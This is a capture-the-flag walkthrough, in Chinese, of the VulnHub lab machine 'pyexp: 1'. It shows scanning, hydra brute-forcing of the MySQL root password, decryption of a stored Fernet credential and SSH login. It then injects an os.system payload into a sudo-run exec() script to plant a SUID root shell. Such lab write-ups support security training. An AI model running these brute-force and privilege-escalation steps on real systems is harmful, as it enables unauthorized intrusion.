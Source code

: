 # pyexp: 1

2024-5-22 https://www.vulnhub.com/entry/pyexp-1,534/

difficulty: easy

## IP

192.168.10.185

## Scan

Open Port -> 1337,3306

```
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolOld, ConnectWithDatabase, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, FoundRows, SupportsLoadDataLocal, ODBCClient, SupportsCompression, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: PLm_sGEeN8i*2[TurYI>
|_  Auth Plugin Name: mysql_native_password
```

就开了 ssh 和 mysql，剩下啥都没有，尝试爆破下 mysql 的 root 密码吧，ssh 也不知道用户名，暂时没法爆破。

```
hydra -t 20 -l root -P ~/tools/dict/rockyou.txt mysql://192.168.10.185
```

找到 root 的密码: prettywoman

使用 mysql 连接，看看数据库里有没有什么提示信息。data 数据库中有一个 fernet 表：

```
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
```

Fernet 是 Python 中的加密库，用于在传输过程中加密和解密数据。在 cyberchef 中找到了对应的解密 Fernet Decrypt，解密后得到用户凭据：

```
lucy:wJ9`"Lemdv9[FEw-
```

尝试使用此凭据，ssh 登陆：

```
ssh lucy@192.168.10.185 -p 1337
```

当前目录得到了 user flag：

```
lucy@pyexp:~$ cat user.txt
8ca196f62e91847f07f8043b499bd9be
```

sudo 显示：

```
(root) NOPASSWD: /usr/bin/python2 /opt/exp.py

lucy@pyexp:~$ cat /opt/exp.py
uinput = raw_input('how are you?')
exec(uinput)
```

exec 可以执行 python 代码，所以需要将下面的攻击代码作为输入：

```
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os;os.system('cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash')
```

在/tmp 中执行，最终得到 root 权限：

```
lucy@pyexp:/tmp$ ./rootbash -p
rootbash-5.0# id
uid=1000(lucy) gid=1000(lucy) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(lucy)
rootbash-5.0# cd /root
rootbash-5.0# ls
root.txt
rootbash-5.0# cat root.txt
a7a7e80ff4920ff06f049012700c99a8
```

